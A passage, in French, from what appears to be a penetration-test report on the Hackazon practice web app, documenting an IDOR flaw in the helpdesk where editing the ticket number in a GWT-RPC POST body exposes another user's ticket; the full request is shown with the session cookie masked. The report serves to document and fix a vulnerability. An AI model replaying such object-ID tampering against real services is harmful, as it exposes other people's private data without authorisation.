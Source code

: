 ###### En suivant cette methodologie d'autre problème d'autorisation on été trouvé 
l'étude à démontré qu'un problème d'autorisation était présent sur la fonctionnalité d'affichage des des ticket du helpdesk.

![iDOR ticket utilisateur](Vulns/iDOR/screen_helpdesk.png)

Sur la capture d'écran si-dessus nous avons pu accèder au ticket d'une personne tierse qui n'appartenait pas à l'utisateur utilisé lors du test. L'attaque est possible en changeant arbitrairement le numéro de ticket dans le body de la requete POST. Dans la requête ci-dessous le numéro à modifier est le dernier soit le 21.

Voici la requête vulnérable:

```
POST /helpdesk/HelpdeskService HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: text/x-gwt-rpc; charset=utf-8
X-Gwt-Permutation: D9E6FA1B6C016BB53C508E629B022D27
X-Gwt-Module-Base: https://hackazon.trackflaw.com/helpdesk/
Content-Length: 170
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/helpdesk/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: red
Te: trailers

7|0|5|https://hackazon.trackflaw.com/helpdesk/|5861BBAC393F609060A1E4008EC18E2B|com.ntobjectives.hackazon.helpdesk.client.HelpdeskService|getEnquiryById|I|1|2|3|4|1|5|21|
```
Le cookie de session PHPSESSID à été volontairement remplacé par des 'X'. 

